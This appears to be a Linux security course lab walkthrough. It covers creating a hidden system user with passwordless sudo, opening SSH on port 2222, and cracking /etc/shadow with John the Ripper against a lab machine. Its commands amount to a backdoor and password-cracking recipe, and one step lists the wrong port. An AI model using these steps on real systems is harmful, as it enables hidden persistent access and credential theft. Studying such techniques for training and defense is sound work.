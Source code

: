 # Advanced Bash - Owning the System

## Step 1: Shadow People
1. Create a secret user named sysd. Make sure this user doesn't have a home folder created:
- sudo useradd --system --no-create-home sysd

![](/Linux/Images/AB-1-create-user.png)

2. Give your secret user a password:
- Sudo passwd sysd

![](/Linux/Images/AB-2-password.png)

3. Give your secret user a system UID < 1000
- sudo usermod -u 997 sysd

![](/Linux/Images/AB-3-group.png)

4. Give your secret user the same GID:
- sudo groupmod -g 997 sysd

![](/Linux/Images/AB-4-gid.png)

5. Give your secret user full sudo access without the need for a password:
- sudo visudo

![](/Linux/Images/AB-5-visudo.png)

6. Test that sudo access works without your password:
- su sysd
- Passw0rd

![](/Linux/Images/AB-6-test-access.png)

## Step 2: Smooth Sailing
1. Edit the sshd_config file:
- sudo nano /etc/ssh/sshd_config

![](/Linux/Images/AB-2.1-nano-sshd.png)

![](/Linux/Images/AB-2.1-nano.png)

## Step 3: Testing Your Configuration Update
1. Restart the SSH service:
- systemctl restart ssh

![](/Linux/Images/AB-3.1-restart.png)

2. Exit the root account
3. SSH to the target machine using your sysd account and port 2222:
  - ssh sysd@192.168.1.23 -p 2222

![](/Linux/Images/AB-3.3-port222.png)

4. Use sudo to switch to the root user:
- sudo su root

![](/Linux/Images/AB-3.4-su-root.png)

## Step 4: Crack All the Passwords
1. SSH back to the system using your sysd account and port 2222:
- ssh sysd@192.168.1.23 -p 22

![](/Linux/Images/AB-4.1-ssh-p222.png)

2. Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
- sudo su root
- john /etc/shadow

![](/Linux/Images/AB-4.2-john.png)
